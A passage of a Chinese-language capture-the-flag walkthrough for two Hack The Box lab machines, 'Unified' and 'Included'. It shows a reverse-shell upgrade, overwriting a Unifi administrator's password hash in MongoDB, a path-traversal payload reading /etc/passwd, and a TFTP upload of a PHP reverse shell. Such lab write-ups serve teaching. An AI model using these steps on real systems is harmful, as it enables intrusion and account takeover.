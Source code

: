 此时可以获取到反弹的 shell，将其升级为 bash：

```
script /dev/null -c bash
```

即可获得 user flag。

> 根据 Walkthrough，在启动恶意 JDNI 服务器前可以使用 tcpdump 先验证漏洞存在：`sudo tcpdump -i tun0 port 389`

随后通过 ps 发现主机上 27117 端口运行 MongoDB 服务，搜索发现 Unifi 默认数据库名为 `ace`，尝试连接并列举用户：

```bash
$ mongo --port 27117 ace --eval "db.admin.find().forEach(printjson)"
```

这里可以发现存在管理员账号 `administrator`，其密码哈希存于 `x-shadow` 字段。

```json
{
    "_id" : ObjectId("61ce278f46e0fb0012d47ee4"),
    "name" : "administrator",
    "email" : "administrator@unified.htb",
    "x_shadow" : "$6$Ry6Vdbse$8enMR5Znxoo.WfCMd/Xk65GwuQEPx1M.QP8/qHiQV0PvUc3uH
uonK4WcTQFN1CRk3GwQaquyVwCVq8iQgPTt4.",
	...
}
```

我们可以使用自己生成的密码哈希替换该字段：

```bash
$ mkpasswd -m sha-512 123456
$6$kVChPiP/rENqcESK$fWp6VtrpgPDUTxstrS949DFd43I86gECz9mqD9/HuQf9G4hlDFAGKwn8mQlvlw7c4dvkQppO9vkhT4d2btnw3.
$ mongo --port 27117 ace --eval 'db.admin.update({"_id": ObjectId("61ce278f46e0fb0012d47ee4")},{$set:{"x_shadow":"$6$kVChPiP/rENqcESK$fWp6VtrpgPDUTxstrS949DFd43I86gECz9mqD9/HuQf9G4hlDFAGKwn8mQlvlw7c4dvkQppO9vkhT4d2btnw3."}})'
```

随后就可以在 web 界面使用 `administrator/123456` 登录 Unifi 管理后台了。在 Settings 中可以显示 SSH root 密码 `NotACrackablePassword4U2022`，通过 SSH 登录 root 用户即可获得 root flag。

### Included

扫描发现 80 端口开放，访问网站发现首页 URL 中存在文件包含特征：`?file=home.php`，尝试包含 `/etc/passwd`：

```
?file=../../../../../../etc/passwd
```

发现可以成功显示文件内容。在该文件中发现存在 `tftp` 用户，说明主机上可能存在 TFTP 服务。`nmap -sU` 扫描发现 UDP 69 端口开放，运行 TFTP 服务。[查阅](https://help.ubuntu.com/community/TFTP)发现 TFTP 无认证机制，默认文件存放位置为 `/var/lib/tftpboot/`，因此我们可以通过 TFTP 上传 Webshell，随后利用本地文件包含漏洞访问 Webshell。

```bash
$ tftp <box_ip>
> put rev_sh.php
> quit
```
